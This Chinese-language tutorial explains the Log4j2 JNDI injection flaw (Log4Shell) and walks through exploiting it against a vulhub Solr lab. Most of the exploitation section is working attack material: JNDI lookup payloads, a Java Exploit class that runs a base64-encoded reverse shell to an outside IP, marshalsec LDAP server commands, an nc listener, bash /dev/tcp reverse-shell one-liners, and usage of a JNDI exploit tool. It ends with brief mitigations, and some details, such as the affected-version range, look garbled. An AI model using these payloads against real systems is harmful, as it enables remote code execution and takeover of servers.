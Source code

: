 Apache Log4j2是一个Java的日志记录工具, 重写log4j. 可以控制日志信息输送的目的地为控制台, 为五年间, GUI组件等, 通过定义每一条日志信息的级别, 能够更加细致地控制日志的生成过程

## 漏洞简介
log4j2存在JNDI注入漏洞, 当程序记录用户输入的数据时即可触发, 引发任意代码执行.
- `org.apache.logging.log4j.core.pattern.MessagePatternConverter`的`format()`方法, 表达式内容替换. 这段代码中一旦发现日志中包含`${`就会将表达式的内容替换为表达式解析后的内容, 而不是表达式本身, 从而导致攻击者构造符合要求的表达式共系统执行.
- `org.apache.logging.log4j.core.lookup.StrSubstitutor`, 提取字符串并通过lookup进行内容替换. 当日志打印时遇到`${`后, Interpolator类以`:`为分割, 将表达式分割成prefix和key, 然后通过prefix找对应的lookup调用, 将key作为参数代入执行.
- log4j2有很多协议: `ldap`,  `docker`, `rmi`等, 最多的payload是`ldap`

## 利用流程
1. 向目标发送指定payload, 目标解析并执行payload, 然后通过ldap连接远程服务, ldap收到请求后, 将请求重定向到恶意java class地址
2. 目标服务器收到重定向请求, 下载恶意class并执行.
https://www.freebuf.com/sectool/313774.html

## 漏洞范围
- 影响组件应用
	- Apache Struts2
	- Apache Solr
	- Apache Druid
	- Apache Flink
	- srping-boot-strater-log4j2
- 影响版本
	- Apache Log4j 2.0 -- 1.15.0-rc1
- http://target.hetianlab.com/target#/m/2/7/1
> docker-compose.yml
```
version: '2'
services:
 solr:
   image: vulhub/solr:8.11.0
   ports:
    - "8983:8983"
```

## 漏洞利用
### POC测试
```
${jndi:ldap://9xovk0.dnslog.cn}

${jndi:ldap://${sys:java.version}.vebwc2.dnslog.cn}

http://47.104.255.11:28983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.vebwc2.dnslog.cn}
```

### 编写并编译恶意代码
```java
# javac Exploit.java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuNDUuMjgvNDQzMyAwPiYx}|{base64,-d}|{bash,-i}");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

### 启动LDAP服务
- 反弹shell
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPReServer "http://<ATTACKER-IP:PORT>/#Exploit" 9999
```

### 监听端口
- `nc -lvvp 4433`

### 发送Payload
```
${jndi:ldap:://<ATTACKER-IP:PORT>/Exploit}

# URL编码
%24%7Bjndi%3Aldap%3A%2F%2F124.71.45.28%3A9999%2FExploit%7D
```
getshell

### 利用工具
https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0
- 构造命令执行
```
bash -i >& /dev/tcp/124.71.45.28/9090 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuNDUuMjgvOTA5MCAwPiYx}|{base64,-d}|{bash,-i}
```
- 工具使用
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "command" -A address
```
- 得到反弹shell的EXP, 发送
```
${jndi:rmi://124.71.45.28:1099/wdfiww}

ldap://124.71.45.28:1389/wdfiww
```

## 修复
- 下载最新版log4j2 https://github.com/apache/logging-log4j2/releases/tags
- 设置JVM启动参数 `Dlog4j2.formatMsgNoLookups=true`
- 使用jdk版本
- 限制业务出网
- 采用rasp对lookup的调用进行阻断